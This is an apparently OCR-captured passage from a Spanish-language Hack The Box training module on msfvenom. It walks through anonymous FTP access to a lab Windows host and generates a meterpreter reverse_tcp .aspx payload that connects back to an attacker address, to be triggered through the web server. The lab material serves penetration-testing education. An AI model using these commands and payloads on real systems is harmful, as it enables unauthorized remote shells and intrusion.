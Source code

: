 ### **FTP Acceso anónimo**

Introducción a MSFVENOM

```
xnoxos@htb[/htb]$ ftp 10.10.10.5Connected to 10.10.10.5.
220 Microsoft FTP Service

Name (10.10.10.5:root): anonymous

331 Anonymous access allowed, send identity (e-mail name) as password.

Password: ******

230 User logged in.
Remote system type is Windows_NT.

ftp> ls

200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.

```

Notando el aspnet_client, nos damos cuenta de que el cuadro podrá ejecutarse`.aspx`Cierras inversas. Afortunadamente para nosotros`msfvenom`Puede hacer exactamente eso sin ningún problema.

### **Generación de carga útil**

Introducción a MSFVENOM

```
xnoxos@htb[/htb]$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2819 bytes

```

Introducción a MSFVENOM

```
xnoxos@htb[/htb]$ lsDesktop  Documents  Downloads  my_data  Postman  PycharmProjects  reverse_shell.aspx  Templates

```

Ahora, solo necesitamos navegar a`http://10.10.10.5/reverse_shell.aspx`, y activará el`.aspx`carga útil. Sin embargo, antes de hacer eso, debemos iniciar un oyente en MSFConsole para que la solicitud de conexión inversa quede atrapada dentro de ella.
